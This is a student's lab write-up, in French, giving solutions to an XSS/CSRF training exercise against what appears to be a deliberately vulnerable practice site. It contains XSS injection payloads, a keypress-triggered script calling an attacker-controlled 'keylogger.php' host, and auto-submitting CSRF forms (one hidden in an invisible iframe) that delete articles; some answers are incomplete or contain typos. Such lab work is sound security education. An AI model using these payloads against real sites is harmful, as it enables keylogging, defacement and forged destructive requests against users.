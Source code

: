 Compte-rendu tp5 XSS/CSRF

Level 1:
https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%22%22%20onerror=%22alert(%27helo%27)%22%3E

Level 2:
Q1)
<img src="" onerror="alert('yo')">

Q2)
<script>alert('d')</scritp>

La balise script doit etre reconnue et bloquée au moment de l'envoie du formulaire.
De plus, il est possible que certains caractères de l'injection soient remplacés, par exemple un espace = %20.

Q3)
fetch('/articles/all')

Q4)
<img src="" onerror="document.write('<div>fin du game</div>');">	

Q5) 

Level 3:

1) <i<img>mg src='toto.jpg' onerror="document.write('<div>fin du game</div>');"/>

2)

 (function() {
      var httpRequest;
      window.addEventListener('keypress', makeRequest);

      function makeRequest() {
        httpRequest = new XMLHttpRequest();

        if (!httpRequest) {
          console.log('Création impossible');
          return false;
        }
        httpRequest.onreadystatechange = alertContents;
        httpRequest.open('GET', 'https://my-malicious-website-brandon.herokuapp.com/keylogger.php');
        httpRequest.setRequestHeader('Access-Control-Allow-Origin', null);
        httpRequest.send();
      }

      function alertContents() {
        if (httpRequest.readyState === XMLHttpRequest.DONE) {
          if (httpRequest.status === 200) {
            console.log(httpRequest.responseText);
          } else {
            console.log('Probleme avec la requete');
          }
        }
      }
    })();



Partie 2 - CSRF

1) https://my-malicious-website-brandon.herokuapp.com/

2)
<?php include_once("index.html"); ?>

<form
	action="https://xss-csrf-tp.herokuapp.com/articles/delete"
	method="GET"
    id="12"
>
</form>

<script>
	document.getElementById("12").submit();
</script>

3)
<?php include_once("index.html"); ?>

<iframe name="hiddenIFrame" style="display: none;"></iframe>

<form
	action="https://xss-csrf-tp.herokuapp.com/articles/delete"
    method="about:blank"
    id="12"
    target="hiddenIFrame"
>
</form>

<script>
	document.getElementById("12").submit();
</script>
